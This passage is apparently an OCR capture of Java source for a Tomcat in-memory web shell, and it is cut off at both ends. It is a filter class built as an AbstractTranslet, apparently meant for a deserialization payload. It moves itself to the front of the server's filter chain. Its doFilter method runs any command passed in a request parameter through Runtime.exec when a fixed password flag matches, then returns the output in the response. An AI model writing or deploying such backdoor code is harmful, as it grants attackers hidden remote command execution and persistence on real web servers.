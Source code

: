 ```plain
                    }


                    Method m = c.getMethod("findFilterMaps");
                    Object[] filterMaps = (Object[]) m.invoke(standardContext);
                    Object[] tmpFilterMaps = new Object[filterMaps.length];
                    int index = 1;
                    for (int i = 0; i < filterMaps.length; i++) {
                        Object o = filterMaps[i];
                        m = ccc.getMethod("getFilterName");
                        String name = (String) m.invoke(o);
                        if (name.equalsIgnoreCase(filterName)) {
                            tmpFilterMaps[0] = o;
                        } else {
                            tmpFilterMaps[index++] = filterMaps[i];
                        }
                    }
                    for (int i = 0; i < filterMaps.length; i++) {
                        filterMaps[i] = tmpFilterMaps[i];
                    }

                }
            }

        } catch (Exception e){
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        System.out.println("Do Filter ......");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null && servletRequest.getParameter("flag").equals("qwer")) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
```